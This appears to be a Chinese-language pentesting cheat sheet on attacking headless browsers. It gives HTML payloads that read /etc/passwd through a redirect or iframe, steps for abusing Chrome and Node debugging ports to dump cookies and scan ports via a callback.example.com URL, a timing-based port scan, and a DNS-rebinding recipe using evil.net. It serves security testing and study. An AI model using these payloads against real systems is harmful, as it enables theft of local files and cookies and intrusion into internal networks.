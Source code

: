 # 无头浏览器

> 无头浏览器是一种没有图形用户界面的网络浏览器。它的工作方式与普通的浏览器（如Chrome或Firefox）相同，能够解析HTML、CSS和JavaScript，但它是在后台运行的，不会显示任何可视化内容。
> 无头浏览器主要用于自动化任务，例如网络爬虫、测试和脚本运行。它们在不需要完整的浏览器功能或者资源（如内存或CPU）受限的情况下特别有用。

## 摘要

* [无头命令](#无头命令)
* [本地文件读取](#本地文件读取)
* [调试端口](#调试端口)
* [网络](#网络)
    * [端口扫描](#端口扫描)
    * [DNS重绑定](#dns重绑定)
* [参考文献](#参考文献)

## 无头命令

无头浏览器命令示例：

* Google Chrome

    ```ps1
    google-chrome --headless[=(new|old)] --print-to-pdf https://www.google.com
    ```

* Mozilla Firefox

    ```ps1
    firefox --screenshot https://www.google.com
    ```

* Microsoft Edge

    ```ps1
    "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --headless --disable-gpu --window-size=1280,720 --screenshot="C:\tmp\screen.png" "https://google.com"
    ```

## 本地文件读取

目标：`google-chrome-stable --headless[=(new|old)] --print-to-pdf https://site/file.html`

* JavaScript重定向

    ```html
    <html>
        <body>
            <script>
                window.location="/etc/passwd"
            </script>
        </body>
    </html>
    ```

* iframe

    ```html
    <html>
        <body>
            <iframe src="/etc/passwd" height="640" width="640"></iframe>
        </body>
    </html>
    ```

## 调试端口

**目标**：`google-chrome-stable --headless=new --remote-debugging-port=XXXX ./index.html`

**工具**：

* [slyd0g/WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut) - 与基于Chromium的浏览器的调试端口交互，查看打开的标签页、安装的扩展程序和cookies
* [slyd0g/ripWCMN.py](https://gist.githubusercontent.com/slyd0g/955e7dde432252958e4ecd947b8a7106/raw/d96c939adc66a85fa9464cec4150543eee551356/ripWCMN.py) - 使用Python编写的WCMN替代工具，修复WebSocket连接时`origin`为空头的问题。

> [!注意]  
> 自从2022年12月20日Chrome更新后，必须使用参数`--remote-allow-origins="*"`启动浏览器才能通过WhiteChocolateMacademiaNut连接到websocket。

**漏洞利用**：

* 连接并交互浏览器：`chrome://inspect/#devices`，`opera://inspect/#devices`
* 杀掉当前运行的浏览器并使用`--restore-last-session`以访问用户的标签页
* Dump cookies：
* 存储的数据：`chrome://settings`
* 端口扫描：循环打开`http://localhost:<port>/json/new?http://callback.example.com?port=<port>`
* 泄露UUID：Iframe：`http://127.0.0.1:<port>/json/version`
* 本地文件读取：[pich4ya/chrome_remote_debug_lfi.py](https://gist.github.com/pich4ya/5e7d3d172bb4c03360112fd270045e05)
* Node inspector `--inspect` 类似于 `--remote-debugging-port`

    ```ps1
    node --inspect app.js # 默认端口9229
    node --inspect=4444 app.js # 自定义端口4444
    node --inspect=0.0.0.0:4444 app.js
    ```

> [!注意]  
> 参数`--user-data-dir=/path/to/data_dir`用于指定用户的资料目录，Chromium在此存储所有应用程序数据，如cookies和历史记录。如果未指定此参数启动Chromium，您会注意到浏览器中不会加载您的书签、收藏夹或历史记录。

## 网络

### 端口扫描

端口扫描：时间攻击

* 动态插入指向假设关闭端口的`<img>`标签。测量onerror的时间。
* 至少重复10次 → 获取关闭端口错误的平均时间
* 测试随机端口10次并测量错误时间
* 如果`time_to_error(random_port) > time_to_error(closed_port)*1.3` → 端口是开放的

**考虑事项**：

* Chrome默认阻止“已知端口”列表中的端口
* Chrome阻止除localhost以外的本地网络地址访问

### DNS重绑定

* [nccgroup/singularity](https://github.com/nccgroup/singularity) - DNS重绑定攻击框架。

1. Chrome将发出两次DNS请求：`A`和`AAAA`记录
    * `AAAA`响应有效的互联网IP
    * `A`响应内部IP
2. Chrome优先连接到IPv6（evil.net）
3. 在第一次响应后立即关闭IPv6监听器
4. 打开指向evil.net的Iframe
5. Chrome尝试连接到IPv6但失败后回退到IPv4
6. 从顶层窗口注入脚本到Iframe中以提取内容

## 参考文献

* [使用JavaScript进行基于浏览器的端口扫描 - 尼古拉·楚哈 - 2021年1月10日](https://incolumitas.com/2021/01/10/browser-based-port-scanning/)
* [Chrome开发者工具协议 - 文档 - 2017年7月3日](https://chromedevtools.github.io/devtools-protocol/)
* [带有Chromium远程调试端口的Cookies - Justin Bui - 2020年12月17日](https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e)
* [使用Chromium远程调试器调试Cookies Dumping故障 - Justin Bui - 2023年7月16日](https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f)
* [Node inspector/CEF调试滥用 - HackTricks - 2024年7月18日](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse)
* [渗透测试后：利用Chrome的调试功能远程观察和控制浏览会话 - wunderwuzzi - 2020年4月28日](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)
* [Chrome和Safari中可靠分秒级DNS重绑定技巧 - Daniel Thatcher - 2023年12月6日](https://www.intruder.io/research/split-second-dns-rebinding-in-chrome-and-safari)